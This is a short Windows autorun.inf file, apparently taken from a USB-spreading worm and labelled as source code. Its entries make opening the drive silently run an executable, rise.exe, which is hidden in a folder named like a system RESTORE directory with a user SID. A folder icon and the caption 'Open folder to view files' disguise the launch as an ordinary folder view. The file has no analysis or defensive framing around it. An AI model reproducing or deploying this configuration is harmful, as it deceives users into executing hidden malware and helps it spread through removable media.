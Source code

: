 [autorun]
open=RESTORE\S-1-5-21-1482476501-1644491937-682003330-1013\rise.exe
icon=%SystemRoot%\system32\SHELL32.dll,4
action=Open folder to view files
shell\open=Open
shell\open\command=RESTORE\S-1-5-21-1482476501-1644491937-682003330-1013\rise.exe
shell\open\default=1